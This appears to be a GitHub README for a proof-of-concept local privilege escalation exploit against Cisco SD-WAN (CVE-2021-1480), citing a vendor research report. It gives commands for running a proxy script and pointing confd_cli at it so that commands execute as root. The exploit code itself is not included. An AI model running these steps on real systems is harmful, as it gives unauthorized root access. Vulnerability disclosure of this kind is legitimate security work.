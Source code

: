 # Exploit for CVE-2021-1480 (SD-WAN)

PoC materials to exploit the CVE-2021-1480 on Cico SD-WAN. The full publicaiton is available on XMCO website : 

* https://blog.xmco.fr/wp-content/uploads/2021/08/XMCO-SDWAN_Report-CVE-2021-1480.pdf

Usage:
1. update Lines 173 and 176 to set the uid of the current user
2. Start the proxy: `python cve-2021-1480.py -L 4564 127.0.0.1 4565`
3. Start the confd_cli: `CONFD_IPC_PORT=4564 /usr/bin/confd_cli`
4. Commands on the confd_cli are now executed by `root`

Source: https://github.com/nccgroup/tcpprox/blob/master/prox.py
